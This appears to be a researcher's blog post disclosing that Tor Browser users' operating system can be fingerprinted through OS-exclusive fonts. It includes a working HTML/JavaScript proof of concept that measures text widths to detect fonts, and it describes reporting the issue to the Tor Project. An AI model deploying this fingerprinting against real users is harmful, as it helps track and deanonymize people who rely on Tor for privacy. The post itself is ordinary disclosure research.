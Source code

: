 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: ''
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify a user's operating system behind Tor and after reporting this to the Tor Project I was aware that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor browser is based on Firefox, with its peculiarities and promises of digital privacy/anonymity, in addition to all its engineering to hide the IP from its user, Tor also promises to combat identifications that are linked to a person’s operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it.

However, it is possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users “Tor on Windows” would be the font “Comic Sans MS” among many other examples.

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts...

After reporting this problem, I was told that the Tor Project is already aware of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete.

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;

            var container = document.createElement('span');
            container.innerHTML = Array(100).join('wi');
            container.style.cssText = [
                'position:absolute',
                'width:auto',
                'font-size:128px',
                'left:-99999px'
            ].join(' !important;');

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            // Pre compute the widths of monospace, serif & sans-serif
            // to improve performance.
            var monoWidth  = getWidth('monospace');
            var serifWidth = getWidth('serif');
            var sansWidth  = getWidth('sans-serif');

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ',monospace') ||
                sansWidth !== getWidth(font + ',sans-serif') ||
                serifWidth !== getWidth(font + ',serif');
            };
        })(document);

        if (isFontAvailable('Lucida Grande')) {
            alert('You are using the MacOS plataform');
        }

        else {
            alert('You are not using the MacOs Platform');
        }
    </script>
</html>
```

User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos-figerprint.png)


User identification using Tor outside MacOS: 

![](/images/publications/tor-detect-platform/tor-browser-without-macos.jpeg)

---

### Impact

Through this technique it is possible to identify the operating system of a user who is using Tor, on a website with low traffic volume, this distinction is enough to exclusively track users, already for a high traffic website, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot.

---

### References

* [https://www.torproject.org/](https://www.torproject.org/)
* [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
* [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
* [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
